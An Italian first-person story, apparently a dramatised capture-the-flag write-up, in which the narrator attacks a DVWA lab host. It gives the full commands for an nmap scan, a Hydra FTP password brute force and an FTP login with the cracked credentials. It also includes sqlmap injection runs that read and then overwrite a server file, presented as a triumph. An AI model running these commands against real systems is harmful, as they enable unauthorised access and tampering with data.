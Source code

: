

Rocky è sul divano. Respira piano. Le zampe distese, le orecchie tese. Ogni tanto mi guarda, ma non si muove.

Io invece mi muovo eccome.

Accendo il portatile. Il ventilatore parte con un suono familiare, quasi un ruggito. Il primo alleato. Apro il pacchetto di Fonfis. Il primo crunch rompe il silenzio. Carboidrati da combattimento. Masticazione tattica.

Kali Linux si carica. Mio padre me lo aveva messo in mano prima ancora che imparassi a pedalare. Distribuzione d'assalto. Nessuna interfaccia inutile. Solo terminale e volontà.

Mi connetto al nodo remoto. Frequenza protetta, canale criptato. Un vecchio rifugio lasciato da lui, “per quando sarà necessario”. Oggi lo è.

Respiro. Primo colpo.

**Scansione delle porte.**

```bash
nmap -sS -p21,80 35.228.25.146
```

Boom. Porte 21 e 80 aperte. Una doppietta: FTP e HTTP. Due varchi, due bersagli.

**Carico Hydra.**

Lancio il brute-force come se armassi un fucile a pompa. Hydra è potente, ma assetato. Gli do la lista delle password, nome utente semplice: `ftpuser`.

```bash
hydra -l ftpuser -P ~/pentest/bin/passwords.txt ftp://35.228.25.146
```

Ci mette poco. Il colpo va a segno.

`ftpuser / testpass`

**Entro.**

```bash
ftp 35.228.25.146
```

Login accettato. Dentro il sistema. Nemico penetrato. Directory aperta.

```bash
ls -la
```

`readme.txt`, `.env`, cartella `uploads/`.

Apro il primo file. Informazione chiave. Il flag è altrove, nascosto in `/var/lib/mysql-files/flag.txt`.

**Punto debole: SQL Injection.**

Entro su DVWA. Sicurezza su “Low”. Troppo facile. Li voglio punire per questo.

**Verifica. Confermo la falla.** E poi lancio SQLMap, la mia artiglieria pesante.

```bash
sqlmap --flush-session \
  -u "http://35.228.25.146/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit" \
  --cookie="PHPSESSID=d05fdlo337anietfmni2mdqhji; security=low" \
  --batch --no-cast \
  --file-read="/var/lib/mysql-files/flag.txt"
```

Eccolo.

Flag.txt decrittato. Dati letti. Posizione confermata.

**Ora vado oltre. Modifico. Corrompo. Impianto.**

Il colpo finale.

```bash
sqlmap -u "http://35.228.25.146/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit" \
  --cookie="PHPSESSID=qfk7580p1o5ip72j1tec0qrqv7; security=low" \
  --batch --no-cast \
  --file-write="/home/francesco/.local/share/sqlmap/output/35.228.25.146/files/_var_lib_mysql-files_flag.txt" \
  --file-dest="/var/lib/mysql-files/flag.txt"
```

**Target modificato. Traccia riscritta. Passato alterato.**

Spengo lo schermo. Lascio che il processore rallenti.

Rocky mi guarda. Io sorrido.

Missione compiuta.

---

**\[Neurocriticum – Clara]**

*"La guerra è terminologica. Clara osserva: Laura non ha usato tasti, ha sparato. Non ha scritto comandi, ha premuto grilletti. Ha vinto non con rabbia, ma con precisione. Il codice è il suo campo. E oggi è tornata viva."*

🛑

